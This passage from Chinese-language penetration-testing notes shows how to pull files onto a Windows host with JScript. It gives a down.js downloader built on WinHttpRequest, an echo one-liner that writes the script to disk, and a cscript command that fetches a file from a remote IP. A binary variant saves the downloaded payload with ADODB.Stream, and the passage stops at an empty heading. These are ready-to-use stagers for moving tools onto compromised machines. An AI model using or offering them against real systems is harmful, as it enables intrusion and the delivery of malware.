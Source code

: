![Win10](../../.gitbook/assets/image%20%28393%29.png)

![HTTPS&#x4E0B;&#x8F7D;&#x6D4B;&#x8BD5;&#x5931;&#x8D25;](../../.gitbook/assets/image%20%28419%29.png)

## 2、JS下载

### 1、字符类payload

```text
## down.js

var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

## 使用echo写入

echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();WScript.Echo(WinHttpReq.ResponseText); > down.js

##cscript调用下载，这里要用/nologo 否则会把banner信息写入hello.txt
cscript /nologo down.js http://172.16.175.1/robots.txt > Hello.txt
```

![&#x5728;Win2003&#x91CC;&#x6D4B;&#x8BD5;](../../.gitbook/assets/image%20%28379%29.png)

### 2、二进制payload

```text
## down.js

var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

## 使用echo写入

```